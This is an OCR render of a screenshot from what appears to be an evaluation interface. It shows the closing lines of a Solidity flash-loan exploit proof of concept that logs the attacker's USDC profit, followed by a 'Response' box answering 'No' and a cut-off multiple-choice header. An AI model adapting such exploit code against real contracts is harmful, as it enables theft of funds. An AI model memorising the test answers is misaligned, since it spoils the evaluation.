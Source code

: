 │             address(this),                                                                                                                                                                                                                           │
│             _assets,                                                                                                                                                                                                                                 │
│             _amounts,                                                                                                                                                                                                                                │
│             _modes,                                                                                                                                                                                                                                  │
│             address(this),                                                                                                                                                                                                                           │
│             new bytes(1),                                                                                                                                                                                                                            │
│             0                                                                                                                                                                                                                                        │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         emit log_named_uint(                                                                                                                                                                                                                         │
│             "After exploit repaid, profit in USDC of attacker:",                                                                                                                                                                                     │
│             USDC.balanceOf(address(this)) / 1e6                                                                                                                                                                                                      │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│                                                                                                                                                                                                                                                      │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {"1": "No"}                                                                                                                                                                                                                                          │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮